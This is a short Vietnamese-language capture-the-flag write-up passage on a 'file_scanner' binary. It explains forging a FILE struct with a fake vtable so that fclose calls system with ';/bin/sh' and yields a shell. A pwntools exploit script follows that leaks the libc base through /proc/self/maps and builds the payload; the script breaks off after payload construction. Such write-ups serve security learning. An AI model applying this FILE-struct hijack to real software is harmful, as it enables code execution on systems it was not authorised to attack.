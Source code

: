 * Mình fake cái `filePtr` về `name` thì `name` sẽ là `fp`, thì ở đây mình set cái `vtable` về `name + 0x10` thì chương trình sẽ gọi `(name + 0x10 + 0x4*3)()`
* Mình để cái giá trị đấy là `system`
* Chương trình gọi `_IO_FINISH` với argument là file struct nên khi nhập tên sau cái `flags` mình để `;/bin/sh...` thì sẽ có được shell

![](https://hackmd.io/_uploads/rJi3waWp2.jpg)

![](https://hackmd.io/_uploads/H1SCDpZ6h.png)

Script

```python
from pwn import *

slnaf = lambda delim, data: p.sendlineafter(delim, data)

elf = context.binary = ELF('file_scanner')
libc = ELF('libc_32.so.6')

def open_file(name):
    slnaf(b'Your choice :', b'1')
    slnaf(b'Enter the filename: ', name)
def read_file():
    slnaf(b'Your choice :', b'2')
def write_file():
    slnaf(b'Your choice :', b'3')



#p = remote('18.141.143.171', 30914)
p = process()
gdb.attach(p, gdbscript='''
           break fclose
           break *0x8048cc9
           break exit
           c
#                            ''')


NAME = 0x804b0a0
p.sendlineafter(b're you Huster? Show me your ID:', b'')
open_file(b'/proc/self/maps')
i = 1
while(1):
    for j in range(i):
        read_file()
    write_file()
    leak = p.recvuntil(b'---------------MENU---------------')
    if(b'libc' in leak):
        break
    i += 1
leak = leak[:8]
leak = int(leak.decode(), 16)
print('leak: {}'.format(hex(leak)))
libc.address = leak
print('system: {}'.format(hex(libc.symbols['system'])))
payload = p32(0xfbad0101)
payload += b';/bin/sh;'.ljust(20, b'A')
payload += p32(libc.symbols['system'])
payload += b'A'*4
payload += p32(NAME)
payload += p32(NAME - 0x10)*0xa
payload += p32(NAME + 0x10)
```
